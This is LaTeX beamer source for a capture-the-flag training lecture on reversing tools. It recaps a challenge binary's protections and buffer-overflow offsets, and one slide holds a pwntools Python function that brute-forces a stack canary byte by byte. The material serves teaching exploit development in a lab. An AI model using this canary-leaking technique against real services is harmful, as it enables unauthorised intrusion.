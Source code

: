 \documentclass[aspectratio=169]{beamer}
\title{Lesson 4: Reversing tools}
\subtitle{An in-depth look into radare2}
\author{Luca Di Bartolomeo - cyanpencil}
\date{\today}
\newcommand{\reg}[1]{\%\texttt{#1}}
\newcommand{\hex}[1]{\texttt{0x#1}}
\begin{document}
\titleframe

\tocframe

\section{Previous Challenge}
\begin{frame}[fragile]
    \frametitle{Challenge}
    {
        \begin{alertblock}{\textbf{protections}}
            On the surface this challenge should be very easy to exploit, however, there are some protections...\\
            \textbf{Hints:} No hints this time! Please do not run to many concurrent attempts, otherwise the server will be overloaded!\\
            \textbf{Files:} \href{https://flagbot.ch/protections.zip}{protections.zip}\\
            \textbf{Server:} google.jadoulr.tk 42002\\
            \textbf{Author:} Robin Jadoul
        \end{alertblock}
    }
\end{frame}

\begin{frame}[fragile]
	\frametitle{Initial Recon}
	\begin{itemize}
		\pause
		\item Running  reveals all the protections:
		\begin{itemize}
			\item FULL RELRO, Canary, NX enabled and PIE
		\end{itemize}
		\item Buffer overflow found very quickly, \reg{rip} is at \hex{58}
		\item However, canary is located at \hex{48}
		\item Binary does socket handling by itself! It uses 
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Leaking the Canary}
	\begin{itemize}
		\item To achieve anything with our buffer overflow, we have to leak the canary
		\pause
		\item I applied the technique shown last time, trying all values for the first byte, then the second, etc:
	\end{itemize}
	\begin{codebox}{python}
# tries to overflow `byte` number of bytes of the canary with `canary`
def try_canary(canary, byte):
	local_io = start()
	# overflow into canary
	payload = fit({
		canary_offset: p64(canary)[:byte]
	})
	local_io.send(payload)
	ret = local_io.recvall()
	return b"stack smashing" not in ret\end{codebox}
\end{frame}
\end{document}
